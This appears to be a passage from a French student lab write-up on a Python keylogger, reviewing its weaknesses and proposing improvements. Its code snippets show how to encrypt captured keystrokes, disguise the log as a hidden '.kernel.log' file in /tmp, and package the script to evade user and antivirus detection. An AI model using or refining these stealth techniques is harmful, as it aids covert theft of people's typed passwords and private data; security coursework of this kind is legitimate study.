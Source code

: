 Nous pouvons voir une ligne s'afficher dans le `tail -f log.txt` une dizaine de secondes après notre frappe.

![image-20241128091712875](./assets/image-20241128091712875.png)

> Quelles sont les points failes de ce keylogger ?

D'après moi, ce keylogger possède les faiblesses suivantes:

- Les antivirus modernes peuvent facilement détecter un keylogger simple comme celui-ci. Nous avons l'exemple-même avec l'avertissement du terminal sur macOS qui nous indique aue ce process n'est pas trusted.
- Le fichier `log.txt` est stocké dans un chemin évident et accessible.
- Les données enregistrées ne sont ni chiffrées ni sécurisées.
- Le programme pourrait ne pas fonctionner correctement sur certains systèmes ou configurations (par exemple, avec des claviers non standard).

> Quelles améliorations puise-je proposer ?

Nous allons essayer de résoudre les principaux soucis détaillés ci-dessus. Nous allons donc nous pencher sur une solution de chiffrement et de discretion concernant le nom du fichier, son emplacement et son exécution.

Voici ce que j'aurais fait:

Sur la fonction `report()`:

```python
key = Fernet.generate_key()
cipher = Fernet(key)

# [....]
def report():
    """
    Report the log to the attacker's server.
    """
    global log, path, cipher
    encrypted_log = cipher.encrypt(log.encode())
    with open(path, "ab") as logfile:
        logfile.write(encrypted_log + b"\n")
    log = ""
    threading.Timer(10, report).start()
```

- Chiffrement avec la ligne `encrypted_log = cipher.encrypt(log.encode()) `
- Append dans le fichier de log en mode binaire (non lisible si l'utilisateur tombe dessus par hasard) avec la ligne `with open(path, "ab") as logfile:`

Sur la localisation du fichier:

```python
path = os.path.join(os.getenv("TEMP", "/tmp"), ".kernel.log")
```

- Création du fichier de logs dans `/tmp`, masquage du nom par un autre nom moins suspect et transformation en fichier caché.

Enfin, j'aurais transformé le script python en un exécutable moins repérable par l'utilisateur (les OS aujourd'hui le détecteront instantanément).
